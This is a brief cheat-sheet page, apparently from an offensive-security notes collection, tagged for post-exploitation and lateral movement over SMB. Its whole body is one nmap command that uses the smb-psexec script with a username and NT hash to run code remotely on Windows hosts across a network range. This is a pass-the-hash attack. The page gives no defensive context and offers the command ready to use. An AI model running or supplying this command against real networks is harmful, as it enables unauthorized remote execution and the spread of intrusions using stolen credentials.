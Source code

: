 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - psexec
  - network-protocols
  - smb
  - network-mapper
  - windows
---
```

# Network Mapper

```
$ nmap -p 445 -Pn --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>' <IP>/<CIDR>
```